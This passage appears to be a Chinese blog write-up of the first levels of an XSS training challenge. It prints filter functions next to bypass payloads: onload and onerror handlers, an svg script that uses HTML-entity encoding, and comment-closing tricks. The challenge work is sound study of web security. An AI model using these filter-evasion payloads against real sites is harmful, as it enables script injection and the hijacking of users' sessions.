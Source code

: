 > onload 事件在页面载入完成后立即触发。

或者使用<img标签进行绕过`<img src=# onerror="prompt(1)"`

![](https://gitee.com/R1ta_Violet/blogimg/raw/master/imgs/image-20210814132452447.png)

```
<BODY onload="prompt(1)"
      
<img src=# onerror="prompt(1)"
```

------

### 0x2

这关把`=` 和 `(`ban掉了，但是可以使用svg标签绕过

> SVG属于支持XML解析，所以那么我们就很好理解了，因为下xml支持在标签内解析HTML实体字符，所以在在XML中`&#40;`会被解析成`（`

[编码网站](https://tool.oschina.net/encode)

[浅谈XSS的小技巧与浏览器编码](http://pupiles.com/xss.html)

```js
function escape(input) {
    //                      v-- frowny face
    input = input.replace(/[=(]/g, '');

    // ok seriously, disallows equal signs and open parenthesis
    return input;
}
```

payload:

```html
<svg><script>prompt&#40;1)</script>
```

------

### 0x3

```js
function escape(input) {
    // filter potential comment end delimiters
    input = input.replace(/->/g, '_');

    // comment the input to avoid script execution
    return '<!-- ' + input + ' -->';
}
```

这关把输入口放在了注释标签中，且把注释标签的闭合过滤了，找找其他的闭合。

```
//
<!-- --!> 2012年后可用
/**/
```

